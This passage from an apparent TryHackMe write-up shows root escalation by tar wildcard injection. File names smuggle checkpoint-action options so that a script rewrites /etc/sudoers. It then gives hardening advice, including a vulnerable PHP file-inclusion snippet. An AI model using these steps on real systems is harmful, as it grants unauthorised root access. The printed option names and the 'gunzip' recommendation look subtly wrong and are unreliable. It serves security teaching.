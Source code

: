 ## [0x06] Privilege Escalation to Root

Taking a look at the key parts of the backup script we can see that it will run `tar *` in `/home/server-management/Documents`. There is a neat trick with `tar` on [gtfobins](https://gtfobins.github.io/gtfobins/tar/).


```bash
---snip---
cd /home/server-management/Documents
backup_files="*"
---snip---
# Backup the files using tar.
tar czf $dest/$archive_file $backup_files
---snip---
```

Here we will create a script that when run as `root` it will overwrite the `/etc/sudoers` file with `server-management ALL=(root) NOPASSWD: ALL` allowing `server-management` to run any command as the `root` user.

```bash
cd ~/Documents
echo 'echo "server-management ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > exploit.sh
echo "" > " - checkpoint-action=exec=sh exploit.sh"
echo "" > - checkpoint=1
```

After a short pause we can run

```bash
sudo cat /root/root.txt
THM[REDACTED]
```

## [0x07] Server Hardening

In this section we will make recommendations on how to harden the server and mitigate these vulnerabilities.

### ClipBucket
`ClipBucket` should be upgraded to version `4.1` from `4.0` as patch notes mention that the vulnerabilities used in our attack have been patched.

### Passwords
The passwords used for both the `developers` and `server-management` accounts should be increased in length and complexity.  Using a password manager that is able to check against known passwords lists should also be considered.

### LFI
This section of the code found in the `index.html` should be removed as it doesn't provide any functionality.

```php
<?php
$file = $_GET['referer'];
$filter = str_replace('../','',$file);
include($filter);
?>
```

### Backup
`tar` should not be used to back up files using the `*` on the GNU version. Moving to another program such as `gunzip` is recommended as no known `privsec` is available at this time.
